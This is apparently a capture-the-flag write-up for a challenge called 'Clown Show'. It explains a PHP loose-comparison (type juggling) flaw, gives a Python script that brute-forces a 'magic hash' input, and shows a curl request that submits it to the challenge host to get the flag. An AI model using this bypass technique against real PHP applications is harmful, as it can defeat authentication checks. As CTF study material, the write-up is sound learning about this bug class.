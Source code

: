 # Clown Show

/src.php has source for the site. We can send a few params, which are hashed together and the result (chars 5-25) are compared to '0' (using `==`). In php, this is vulnerable to type juggling.
`0e1434 == '0'` for example. We simply have to find a set of values satisfying these constraints.

```py
import hashlib

def hash(string):
    return hashlib.sha256(string).hexdigest()

time = b"12345678901"
name = b"test"
import os, binascii
import re
while True:
    answer = binascii.hexlify(os.urandom(20))
    thing = hash(name + answer + time)
    if len(re.findall('^(.{5}0e[\d]{18})', thing)) > 0:
        print(re.findall('^.....0e\d{18}', thing))
        print(name + b" " + answer + b" " + time)
        print(thing)
        exit()
```
curl http://challenge.ctf.games:31965/index.php -d 'name=test&answer=6b067ebdb712e42e64e6dcaeb6513afd0f801bfc&time=12345678901'

#### Flag:flag{w00t_W0ot_juggl1n6_1s_2_3z}
